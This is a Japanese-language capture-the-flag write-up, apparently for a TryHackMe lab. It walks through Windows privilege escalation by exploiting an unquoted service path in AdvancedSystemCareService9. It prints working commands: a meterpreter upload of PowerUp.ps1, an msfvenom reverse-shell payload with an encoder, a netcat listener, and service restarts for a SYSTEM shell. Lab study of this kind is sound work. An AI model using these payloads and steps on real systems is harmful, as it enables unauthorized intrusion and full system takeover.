 
#### 解　答
  
![image](https://github.com/y-uoh/THM/assets/169203901/d5f3df66-e1b5-4243-a4bc-df65dbf4371d)  
-> `PowerUp.ps1`のパスを検索  
  
![image](https://github.com/y-uoh/THM/assets/169203901/a5f23011-67a9-44aa-9366-bb9dbc21b440)  
-> `meterpreter`の`upload`コマンドで、`PowerUp.ps1`をターゲットにアップロード  
  
![image](https://github.com/y-uoh/THM/assets/169203901/8b0f6e9e-c474-4135-b3fa-e208eb58ae3f)  
-> `powershell`をプラグインして、`powershell`を起動。この辺は`powershell`を使うためのおまじないのようなもん  
  
![image](https://github.com/y-uoh/THM/assets/169203901/b9e9e963-4f78-4c68-9dee-a79f6b5d1941)  
-> `PowerUp.ps1`の実行
  
### Q：Unquoted Service Path脆弱性を持つサービス名は？
#### `PowerUp.ps1`の実行結果
![image](https://github.com/y-uoh/THM/assets/169203901/95ef8960-1278-4a96-91ac-d1620d130408)  
  
#### Unquoted Service Path脆弱性とは何か。
write up曰く、、、  
> 簡単にいうと、Pathがプログラム上で`"`などで囲まれていないという脆弱性。というか設定ミス  
  
それを判定するには公式曰く、、、
> `CanRestart`の項目が`True`になっているものに脆弱性がある  
  
#### 解　答
上記を踏まえての解答 -> `AdvancedSystemCareService9`  

### Q：リバースシェルを実行し、ルートフラグを取得せよ
#### 実施コマンド
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.0.83 LPORT=1234 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
meterpreter > upload "/home/kali/Advanced.exe" "C:\Program Files (x86)\IObit\Advanced.exe"
kali > nc -lnvp 1234
meterpreter > shell
C:\windows\system32 > net stop AdvancedSystemCareService9
C:\windows\system32 > net start AdvancedSystemCareService9
kali > C:\windows\system32 > whoami
kali > C:\windows\system32 > where /R \ root.txt
kali > C:\Users\Administrator\Desktop\root.txt
```
#### 説　明
- `msfvenom -p windows/shell_reverse_tcp LHOST=10.9.0.83 LPORT=1234 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`
  - ペイロードの作成
  - 公式の通り
- `meterpreter > upload "/home/kali/Advanced.exe" "C:\Program Files (x86)\IObit\Advanced.exe"`
  - 作成したペイロードのアップロード
  - `meterpreter`のupload`コマンドは`upload "<アップロード元のパス>" "<アップロード先のパス>"`でアップロード先を指定できる
  - パスを`"(ダブルクォーテーション）`で囲むのがポイント
- `kali > nc -lnvp 1234`
  - リバースシェル待ち受け
- `meterpreter > shell`
  - シェル起動
- `C:\windows\system32 > net stop AdvancedSystemCareService9`,`C:\windows\system32 > net start AdvancedSystemCareService9`
  - サービスの停止と開始。要は再起動した
  - `windows`のサービスの起動・停止は`net`コマンドが`sc`コマンド
  - `net <start or stop> <サービス名>`,`sc <start or stop> <サービス名>`といった感じで使い方も似てる
- `kali > C:\windows\system32 > whoami`
